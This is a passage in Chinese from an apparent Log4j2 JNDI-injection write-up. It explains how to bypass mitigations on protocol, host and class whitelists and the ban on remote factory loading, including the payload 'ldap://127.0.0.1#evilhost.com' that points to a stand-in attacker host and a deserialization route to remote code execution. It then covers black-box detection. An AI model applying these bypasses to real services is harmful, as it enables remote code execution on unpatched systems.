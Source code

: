 **绕过上述限制实现 JNDI 注入**

(1) 绕过协议白名单（java、ldap、ldaps）

```
只能使用ldap协议进行JNDI注入。
```

(2) 绕过主机白名单（本机 IP127.0.0.1、localhost 等）。使用 Java 的一个 trick 进行绕过，如下：

```
ldap://127.0.0.1#evilhost.com
当URI#getHost()方法遇到这样的url时，会取#前面，协议://后面的部分作为url的Host.
```

(3) 绕过 javaClassName 白名单（如 java.lang.Boolean、java.lang.Byte、java.lang.Short 等）

```
javaClassName这个属性的值是从LDAP服务器返回的数据里取的，而且这个属性的值对于后续的漏洞利用毫无影响，只要修改一下LDAP服务端的代码，将该值的属性改为满足log4j2中要求的值即可。
```

(4) 绕过不能加载远程 ObjectFactory 类的限制

```
修改LDAP服务器，让其返回序列化数据，这样代码还是会走到最后的this.context.lookup()。在目标服务JNDI lookup的过程中，如果目标环境classpath中包含了可利用的反序列化Gadget，便可实现 RCE。
所以这里实现RCE的另一个条件就是目标环境中存在可被利用的Java反序列化Gadget。
至于LDAP服务的修改，参考《JNDI注入绕过高版本JDK限制》(https://blog.csdn.net/mole_exp/article/details/121141042)，只是添加一个返回序列化数据的功能。
```

**目前这几台主机都不支持 ldap://127.0.0.1#evilhost.com 这样的形式，暂未复现。**

## 3. 检测与防御

### 3.1 检测漏洞是否存在

**黑盒测试**

大家都知道存在漏洞是因为在打日志的时候存在问题，所以对于黑盒测试而言，只要是能够被服务端获取且被记录的地方都是可能触发漏洞的，比如 header 中的 Cookie、User-agent 等，post 或者 get 的参数中，url 中等，这种只能盲打，根据返回结果来判断。

检测漏洞项目参考：

> https://github.com/takito1812/log4j-detect/blob/main/log4j-detect.py

![img](img/a4bb089af6008b42679e7c4ca6398dbe.png)
